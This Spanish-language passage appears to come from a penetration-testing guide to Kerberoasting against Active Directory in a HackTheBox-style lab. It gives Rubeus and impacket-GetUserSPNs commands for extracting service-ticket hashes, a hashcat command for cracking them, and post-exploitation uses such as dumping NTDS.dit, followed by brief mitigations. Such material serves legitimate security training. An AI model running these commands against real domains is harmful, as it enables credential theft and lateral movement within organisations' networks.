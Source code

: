 ![Diagrama Kerberoasting](images/kerberoasting-diagram.png)

##### Ejecución - Rubeus

Haciendo uso de:

```powershell
.\Rubeus.exe kerberoast # Como Administrator
.\Rubeus.exe kerberoast /creduser:htb.local\amanda /credpassword:Password123
```

Se permite el dumpeo de los usuarios aplicables.

![Kerberoast con Rubeus](images/kerberoasting-rubeus.png)

##### Ejecución - Impacket

Habiendo conseguido las credenciales de un usuario válido de la máquina se puede ejecutar el ataque haciendo uso de:

```bash
impacket-GetUserSPNs {dominio/usuario:contraseña} -dc-ip {ip de dominio} -request
```

![Ejecución de GetUserSPNs](images/kerberoasting.png)

*Nota: si se identifica un error similar a `[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)` basta con ejecutar `ntpdate <HOST>` para sincronizar la hora del sistema con la del servidor.*

##### Crackeo

Después de conseguir el hash, se puede buscar crackearlo (ejemplo empleado con `hashcat -m 13100 kerberos.hash rockyou.txt` )

![Crackeo de kerberos hash](images/kerberoasting-crack.png)

##### ¿Qué puede hacer una cuenta de servicio?

Después de crackear una constraseña de la cuenta de un servicio existen varias formas de exfiltrar datos o recolectar información relevante dependiendo de si la cuenta obtenida es un domain admin o no.

Si la cuenta de servicio es un domain admin el control es similar a cuando se tiene un golden/silver ticket pudiendo obtener los contenidos de `NTDS.dit`.

Si la cuenta de servicio no es un domain admin se puede usar para loguearse en otros clientes/sistemas y pivotear o escalar o validar que esa contraseña crackeada sea reciclada para otro servicio o cuenta de usuario.

##### Mitigación

- Contraseñas fuertes.
- Principio del privilegio mínimo (en el ejemplo se configuró un servicio el cuál tiene permisos de administrador de dominio, siendo esto una configuración común no apropiada).

#### AS-REP Roasting
